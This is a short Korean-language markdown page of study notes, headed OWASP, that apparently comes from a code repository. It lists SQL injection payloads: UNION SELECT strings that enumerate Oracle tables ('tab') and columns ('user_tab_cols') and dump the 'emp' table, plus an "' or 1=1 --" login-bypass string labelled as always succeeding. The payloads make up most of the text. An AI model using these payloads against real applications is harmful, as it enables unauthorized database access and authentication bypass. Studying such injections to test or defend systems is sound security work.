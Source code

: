 # OWASP (Open Web Application Security Project)
> 기간내 발생한 보안사고를 정리한 


```sql
SELECT 컬럼명,????
FROM 테이블명
WHERE 컬럼명 '값%'
```

**테이블명을 얻기**
```sql
' union select tname,'0','0','0','0' FROM tab --
```

```sql
    WHERE 컬럼명 '' union select tname,'0','0','0','0' from tab --%'
```

**컬럼명 얻기**
```sql
    select * from USER_TAB_COLS;
    ' union select column_name,'0','0','0','0' from user_tab_cols WHERE table_name = 'EMP'
```

**정보 얻기**
```sql
    ' union select empno||'~', ename,job,'0','0' from emp --
```


# ID & PASSWORD Injection
> 무조건 성공

```sql
    SELECT 컬럼명,,,
    FROM 테이블명
    WHERE 컬럼명='값' AND 컬럼명='값'

    -- 값에 '(홀따옴표)를 다 쓴다.

    ' or 1=1 --

    WHERE 컬럼명='' or 1=1 --' and 컬럼명='값'

```